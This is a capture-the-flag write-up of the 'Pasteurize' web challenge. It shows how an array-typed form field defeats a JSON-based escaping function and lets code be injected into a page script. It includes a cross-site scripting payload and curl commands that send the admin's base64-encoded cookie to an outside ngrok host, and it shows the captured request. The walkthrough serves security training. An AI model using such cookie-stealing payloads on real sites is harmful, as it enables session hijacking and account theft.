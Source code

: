# Pasteurize

## Enumeration

Looking at the site, it looks as if there's a place to enter the contents for a paste.  You can then visit the paste.  On the viewing page there's a link to
send the note to TJMike, the administrator.  The source of the create/index page has a hidden link to `/source` and it gives us the source for the main server file.

```html
<body>
    <nav class="navbar navbar-expand-md navbar-light bg-light">
    <div class="collapse navbar-collapse mr-auto">
        <a href="/" class="navbar-brand">Pasteurize</a>
    </div>
</nav>
    <div class="container w-50 pt-5">
        <h3>Create new paste</h3>
        <form class="form" method="post">
            <textarea class="form-control" name="content"></textarea>
            <input type="submit" class="mt-3 btn btn-primary btn-block" value="Submit">
        </form>

    </div>
    
    <a href="/source" style="display:none">Source</a>
    
</body>
```

Looking at the source of the view page, it seems that the contents of our paste is injected into the javascript of the page, and then that text is run
through DOMPurify, before being inserted into the DOM.

```html
  <script>
      const note = "CONTENTS_OF_NOTE_GOES_HERE";
      const note_id = "43ce8abb-7c84-43da-9fc4-07732bab30aa";
      const note_el = document.getElementById('note-content');
      const note_url_el = document.getElementById('note-title');
      const clean = DOMPurify.sanitize(note);
      note_el.innerHTML = clean;
      note_url_el.href = `/${note_id}`;
      note_url_el.innerHTML = `${note_id}`;
  </script>
```

Lets see if we can escape quotes around the note variable by looking at the server source.

### Server Source

The first thing that stands out in the source is the extended body parser

```js
/* They say reCAPTCHA needs those. But does it? */
app.use(bodyParser.urlencoded({
  extended: true
}));
```

This means we can send arrays and objects as the content.  Looking at the `POST /` route we see the note is inserted into a `Datastore` without much processing.
Looking at the code to retrieve the note we see that it's sanitized somewhat before being embedded into a view template.

```js
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

First the value is stringified into JSON, which will escape a lot of control characters.  Then the first and last characters are removed via slice, and then less than and greater than
characters are escaped.  If we can pass this function an array with a string in it, after stringification it should look like `["value goes here"]`, then the brackets will be removed.
So we should be able to inject a payload if we don't use characters that are escaped in JSON.

## Testing

To test our assumptions lets create a note using `content[]=value` as the note content.

```sh
╭─zoey@virtual-parrot ~/sec ‹master*› 
╰─$ curl https://pasteurize.web.ctfcompetition.com --data-raw "content[]=value"
Found. Redirecting to /d43840ea-ed52-440e-8c01-8733d6ab3be7
```

And when we check the rendered note, in the source we see the following:

```html
<script>
  const note = ""value"";
  const note_id = "d43840ea-ed52-440e-8c01-8733d6ab3be7";
  const note_el = document.getElementById('note-content');
  const note_url_el = document.getElementById('note-title');
  const clean = DOMPurify.sanitize(note);
  note_el.innerHTML = clean;
  note_url_el.href = `/${note_id}`;
  note_url_el.innerHTML = `${note_id}`;
</script>
```

Our assumptions worked, but the above is not valid javascript.  So lets craft a payload to try to do the usual thing, which is trying to retrieve the admin's cookies, and we need to do it without using any characters that would be escaped by `JSON.stringify`.

## Exploiting

First lets end the statement with `;`, and then lets encode `document.cookie`,  and send it to our own server.  For the URL string we'll use backticks since they aren't escaped.  We'll also need 
to take care of the trailing quote, and to do that we just need to ensure we end the payload with a semicolon as an empty string on its own is valid javascript.  So our payload ends up looking 
like the following:

```js
;fetch(`https://0853395be8b7.ngrok.io/` + btoa(document.cookie));
```

and when rendered into the page we should get:

```html
<script>
  const note = "";fetch(`https://0853395be8b7.ngrok.io/` + btoa(document.cookie));"";
  const note_id = "d43840ea-ed52-440e-8c01-8733d6ab3be7";
  const note_el = document.getElementById('note-content');
  const note_url_el = document.getElementById('note-title');
  const clean = DOMPurify.sanitize(note);
  note_el.innerHTML = clean;
  note_url_el.href = `/${note_id}`;
  note_url_el.innerHTML = `${note_id}`;
</script>
```

Let's fire up ngrok and our own local http server, and then create the note with the payload via curl.  Be sure
to url encode the + so it doesn't end up as a space.

```sh
╭─zoey@virtual-parrot ~/sec ‹master*› 
╰─$ curl https://pasteurize.web.ctfcompetition.com --data 'content[]=;fetch(`https://0b7660a35154.ngrok.io/`%2Bbtoa(document.cookie));'
Found. Redirecting to /a536d492-4d6f-4d42-b1b5-5a28216e2cd9  
```

Now lets visit our new note in the browser and send it to the admin.  If everything worked properly we should get the following request sent to our server:

```http
22:55:53: GET /c2VjcmV0PUNURntFeHByZXNzX3QwX1RyMHVibDNzfQ==
        Host: 0b7660a35154.ngrok.io
        Pragma: no-cache
        Cache-Control: no-cache
        sec-ch-ua: 
        sec-ch-ua-mobile: ?0
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
        Accept: */*
        Origin: https://pasteurize.web.ctfcompetition.com
        Sec-Fetch-Site: cross-site
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://pasteurize.web.ctfcompetition.com/a536d492-4d6f-4d42-b1b5-5a28216e2cd9
        Accept-Encoding: gzip, deflate, br
        X-Forwarded-Proto: https
        X-Forwarded-For: 104.155.55.51
```

Then when we decode the base64 we get `secret=CTF{Express_t0_Tr0ubl3s}`.

